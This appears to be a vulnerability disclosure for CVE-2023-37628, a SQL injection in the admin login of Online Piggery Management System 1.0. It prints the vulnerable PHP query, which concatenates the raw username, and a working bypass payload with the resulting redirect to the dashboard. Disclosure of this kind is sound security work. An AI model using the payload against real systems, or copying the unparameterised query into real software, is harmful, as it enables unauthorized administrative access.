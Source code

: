 # CVE-2023-37628

```
Product : Online Piggery Management System - 1.0
Vulnerability Type : SQL Injection
Vendor of Product : Create Network NG

Desc : An attacker can bypass the admin panel through SQL injection
```

## Vulnerable Code

```php
// file : index.php
...
$username = trim($_POST['username']);
$password = $_POST['password'];
$hash = sha1($password);

$q = $db->query("SELECT * FROM admin WHERE username = '$username' AND password = '$hash' LIMIT 1 ");
...
```

# POC

Admin login panel can be bypassed by giving the "username" as `' OR 1=1; -- -`.

```SQL
SELECT * FROM admin WHERE username = '' OR 1=1; -- -'' AND password = 'PWNED' LIMIT 1
```

When logging with the username `' OR 1=1; -- -` , we get a 302 redirect to "dashboard.php" indicating that we have bypasswd the admin login.

![sqli](sqli.png)
